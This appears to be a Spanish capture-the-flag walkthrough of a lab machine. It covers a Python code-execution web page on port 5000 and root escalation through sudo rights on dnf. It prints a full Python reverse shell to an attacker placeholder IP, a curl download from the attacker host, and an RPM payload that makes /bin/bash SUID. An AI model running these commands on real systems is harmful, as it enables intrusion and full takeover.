








- tags: #python #dnf 
____
comenzamos la maquina con aplicando reconocimientos de puerto con nmap.

vemos que tenemos el puerto 5000 - OPEN.

revisamos la pagina web para ver que tal.
_____

____
vemos que tenemos una pagina que nos permite ejecutar código de python. 

por lo que haremos pruebas para ver si la web nos interpreta comandos utilizando la librería os de python.
____

____
tenemos ejecución de comandos por los que el siguiente paso sera preparar un reverse shell con python.

```python
import socket
import subprocess
import os

# Datos del atacante
IP = 'ATACANTE_IP'
PORT = ATACANTE_PUERTO

# Crear socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conectar al servidor
s.connect((IP, PORT))

# Redireccionar entrada y salida estándar
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

# Iniciar shell
subprocess.call(["/bin/sh", "-i"])
```

existen mas sencillas con esta resolvemos.

a la hora de ganar acceso a la maquina tuvimos problemas para tratar la tty por lo que seguimos sin este paso.

aplicamos el `sudo -l` y verificamos lo que nos sale.
____

____
tenemos ese binario que si buscamos en web nos parace los siguiente.
___

_____
los primeros tres comando son los que ejecutaremos en nuestra maquina atacante.

en el segundo comando es donde se da la escalada de privilegios.

```shell
echo 'chmod u+s /bin/bash' > $TF/x.sh
```

Aquí aplicamos una escalada típica de privilegios donde cambiamos LOS permisos de /bin/bash a SUID.

estos comandos nos crearan un archivo el cual subiremos a la maquina utilizando un servidor de python desde la maquina atacante y utilizando curl desde la maquina victima para poder descargar el archivo.
_______

_____
ahora descargamos el archivo con curl.
____

_____
utilizamos curl para esta tarea

```bash
curl 192.168.1.103/archivo.rpm -o nombre_de_archivo
```

una vez cargado el archivo, lo podemos ejecutar utilizando el comando root.

```bash
sudo -u root /usr/bin/dnf install -y nombre_del_archivo.rpm
```

____

____
ahora aplicamos un **bash -p** y ya deberíamos tener root 
____

____